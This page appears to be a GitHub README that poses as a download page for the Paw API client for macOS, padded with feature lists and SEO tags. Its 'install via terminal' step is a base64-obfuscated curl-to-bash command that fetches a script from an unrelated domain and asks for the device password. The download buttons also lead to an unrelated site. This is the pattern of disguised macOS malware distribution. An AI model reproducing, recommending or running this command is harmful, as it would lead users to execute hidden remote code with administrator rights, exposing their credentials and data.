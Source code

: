 # 🐾 Paw — Advanced API Tool for macOS

**Paw** is a full-featured API client for macOS that helps developers test, debug, and design APIs with an intuitive native interface. Whether you're working with REST, GraphQL, or gRPC, Paw makes it easy to structure requests, inspect responses, and generate code for multiple languages.

Designed exclusively for macOS, Paw integrates smoothly into your development workflow, offering powerful features like dynamic values, environment variables, response formatting, and team collaboration support.

---

## ✅ Download Paw for macOS  
[![Download Paw](https://img.shields.io/badge/Download-Paw-blue)](https://shuziktobehuman.github.io/huja/Paw)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)




## 📦 What is Paw?

Paw is a native macOS application designed to be the ultimate companion for API development and testing. It combines the power of advanced HTTP tools with an elegant UI, allowing developers to test APIs, visualize requests and responses, and export client code with just a few clicks.

From designing requests to organizing environments and generating client SDKs, Paw is ideal for back-end developers, DevOps engineers, and API architects on macOS.

---

## ✨ Features

- 🌐 **Support for REST, GraphQL, gRPC, and SOAP APIs**  
- 🧠 **Dynamic Values** for authentication, timestamps, and UUIDs  
- 🛠 **Environment Variables** and project templates  
- 🧾 **Request/Response Inspector** with syntax highlighting  
- 🔄 **Code Generator** for cURL, Swift, Python, and more  
- 🧩 **Extensibility via JavaScript-based extensions**  
- 🤝 **Team collaboration & syncing via Paw Cloud**  
- 🖥 Built natively for macOS — optimized for Apple Silicon  
- 🔐 Secure storage for API keys and credentials  
- 🧬 Import/export from Postman, OpenAPI, Swagger, HAR  

---

## 💡 Why Use Paw?

- 🧩 All-in-one API development and debugging solution  
- 🔄 Effortless switching between environments and endpoints  
- 🖱 Clean, native macOS interface  
- ⚙️ Compatible with modern macOS versions (Ventura, Monterey, Sonoma)  
- 📦 Built for developers working in solo or collaborative teams  
- 🚀 Instant code generation saves time in implementation  

---

[![Download Paw](https://img.shields.io/badge/Download-Paw-blue)](https://shuziktobehuman.github.io/huja/Paw)

---


## 🖼 Preview

![Paw Screenshot 1](https://cdn-static.paw.cloud/img/og/paw-home-twitter-card-text-296e1c259c.png)  
![Paw Screenshot 2](https://cdn-static.paw.cloud/img/discover/landing/landing-header-1ac8944e97.png)

---

## 📌 Tags

paw mac, paw for mac, paw osx, paw mac os, macos paw, paw mac dowload,  
api client for mac, rest client mac, mac api testing tool, graphql client mac,  
postman alternative mac, http client mac, api testing macos, paw app mac,  
paw macbook, paw native mac, api design mac, paw api client, api development mac,  
paw code generation mac, paw cloud mac

---
